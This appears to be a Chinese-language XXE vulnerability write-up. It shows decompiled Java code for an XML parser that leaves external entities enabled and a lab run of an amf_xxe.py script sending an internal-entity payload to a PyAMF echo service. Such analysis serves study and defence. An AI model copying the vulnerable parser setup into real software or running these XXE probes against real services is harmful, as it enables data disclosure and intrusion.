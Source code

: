 可以看到如上代码最后的readXML实现，xml被传入至stringToDocument方法中，该方法属于XMLUtil类。

**XMLUtil_stringToDocument.java**

```
#!java
/*     */ 
/*     */   public static Document stringToDocument(String xml, boolean nameSpaceAware)
/*     */   {
/* 116 */     ClassUtil.validateCreation(Document.class);
/*     */     
/* 118 */     Document document = null;
/*     */     try
/*     */     {
/* 121 */       if (xml != null)
/*     */       {
/* 123 */         StringReader reader = new StringReader(xml);
/* 124 */         InputSource input = new InputSource(reader);
/* 125 */         DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
/* 126 */         factory.setNamespaceAware(nameSpaceAware);
/* 127 */         factory.setValidating(false);
/* 128 */         DocumentBuilder builder = factory.newDocumentBuilder();
/*     */         
/* 130 */         document = builder.parse(input);
/*     */       }
/*     */     }
/*     */     catch (Exception ex)
/*     */     {
/* 135 */       throw new MessageException("Error deserializing XML type " + ex.getMessage());
/*     */     }
/*     */     
/* 138 */     return document;
/*     */   }
/*     */ }
```

当DocumentBuilder由DocumentBuilderFactory所创建时，外部实体的解析默认情况下是被允许的，开发者需要自己去配置解析器以避免XXE漏洞：（factory.setExpandEntityReferences(false);）。由于上面的代码并没有禁止外部实体的解析，因而产生了XXE。相关可参考：http://security.tencent.com/index.php/blog/msg/69

# 0x02 漏洞利用之一（PyAMF）

------

以下的python脚本（http://www.agarri.fr/docs/amf_srv.py）将会运行一个在线解析AMF的服务，当然你需要安装PyAMF模块，你可以使用`pip install pyamf`来安装，或者是从github获取一份代码（https://github.com/hydralabs/pyamf）后使用`python setup.py install`来安装；Ubuntu下也可以用`apt-get install python-pyamf`。这里，所运行的PyAMF注册了2个服务，其中一个是echo。首先用原作者所编写好的`amf_xxe.py`来对所架设的PyAMF服务进行测试。

```
#!bash
$ ./amf_xxe.py http://192.168.22.201:8081/ echo internal
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'echo'
[+] Payload 'internal': '<!DOCTYPE x [ <!ENTITY foo "Some text"> ]><x>Internal entity: &foo;</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onResult..null......C<x>Internal entity: Some text</x>
[+] Done
```
